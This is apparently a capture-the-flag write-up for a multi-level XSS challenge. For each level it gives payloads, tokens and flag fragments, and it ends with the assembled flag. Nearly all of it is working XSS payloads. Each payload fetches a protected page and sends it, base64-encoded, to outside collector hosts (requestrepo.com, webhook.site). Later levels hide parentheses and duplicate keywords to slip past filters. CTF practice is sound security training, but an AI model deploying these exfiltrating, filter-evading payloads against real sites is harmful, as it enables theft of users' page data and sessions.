 ### Part2:
- payload: `<SCRIPT>fetch('/level/no-scr7pt-owo').then(r=>r.text()).then(h=>fetch('https://039vmnou.requestrepo.com?d='+btoa(h)))</SCRIPT>`
- token: `purell-token{scr7ptl355_m3n4c3}`
- flag: `b3s7_x40ss_`
- name: `no-scr7pt-owo`


### Part3: 
- payload: `<SCRIPT>fetch('/level/no-more-xss').then(r=>r.text()).then(h=>fetch('https://039vmnou.requestrepo.com?d='+btoa(h)))</SCRIPT>`
- token: `purell-token{XSS_IS_UNSTOPPABLE_RAHHHH}`
- flag: `h4nd_g34m_`
- name: `no-more-xss`


### Part4: 
- payload: ```<textarea/autofocus/oonnfocus="eval.call`${'fetch\x28\x27/level/parentheless\x27\x29.then\x28functioonn\x28r\x29 {r.text\x28\x29.then\x28functioonn\x28h\x29 {fetch\x28\x27https://webhook.site/69e2d5f4-7d94-465f-a4d9-ef846049a20c?d=\x27 + btoa\x28h\x29\x29;}\x29;}\x29;'}`";>``` (from part 4 -> 7)
- token: `purell-token{a_l7l_b7t_0f_m00t4t70n}`
- flag: `4cr0ss_411_t1m3`
- name: `tricky-lil-hacker`

### Part 5: 
- payload: like part 4
- token: `purell-token{html_7s_m4lf0rmed_bu7_no7_u}`
- flag: `_4nd_z_`
- name: `sneeki-breeki`

### Part 6: 
- payload: like part 4
- flag: `un1v3rs3`
- token: `purell-token{wh3n_th3_imp0st4_i5_5u5_bu7_th3r35_n0_sp4c3}`
- name: `spaceless`
- other payload: `<textarea/autofocus/oonnfocus="fetch('/level/spaceless').then(functioonn(r) {r.text().then(functioonn(h) {fetch('https://webhook.site/69e2d5f4-7d94-465f-a4d9-ef846049a20c?d=' + btoa(h));});});";>`

### Part 7: 
- payload: like part 4
- token: `purell-token{y0u_4r3_th3_0n3_wh0_c4ll5}`
- flag: `_1nf3c71ng_3v34y_1}`
- name: `parentheless`

### Flag: 
`lactf{1_4m_z3_b3s7_x40ss_h4nd_g34m_4cr0ss_411_t1m3_4nd_z_un1v3rs3_1nf3c71ng_3v34y_1}`

